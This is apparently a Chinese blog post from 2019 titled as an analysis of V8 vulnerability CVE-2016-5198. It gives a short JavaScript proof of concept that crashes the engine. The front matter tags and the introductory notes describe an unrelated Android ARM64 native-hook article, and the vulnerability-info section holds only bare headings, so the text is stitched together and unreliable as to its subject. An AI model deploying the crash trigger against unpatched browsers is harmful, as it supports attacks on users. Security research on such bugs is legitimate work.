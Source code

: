 ```yaml
---
layout:     post
title:      "V8引擎CVE-2016-5198漏洞分析"
subtitle:   ""
date:       2019-07-26 10:30:00
author:     "GToad"
header-img: "img/android-five.png"
catalog: true
tags:
    - Android
    - NDK
    - Hook
    - arm64
    - inline hook
    - native hook
    - LTS
---
```


> 本文为本博客V8系列第一篇，因此会带上一些调试

> 本文讲的是[Android Native Hook工具实践](https://gtoad.github.io/2018/07/06/Android-Native-Hook-Practice/)一文的后续。为了使得安全测试人员可以在ARM64的手机上进行Android Native Hook而继续做的一些工作。

> 本文对测试机环境配置的要求较高，文中使用的设备是Pixel。

> [ARM32项目地址](https://github.com/GToad/Android_Inline_Hook.git)

> [ARM64项目地址](https://github.com/GToad/Android_Inline_Hook_ARM64.git)

## 漏洞基本信息

漏洞信息页面
漏洞修复代码

## PoC

以下代码执行后会直接崩溃

```javascript
function Ctor() {
  n = new Set();
}
function Check() {
  n.xyz = 0x826852f4;
  parseInt();
}
for(var i=0; i<2000; ++i) {
  Ctor();
}
for(var i=0; i<2000; ++i) {
  Check();
}
Ctor();
Check();
```
## 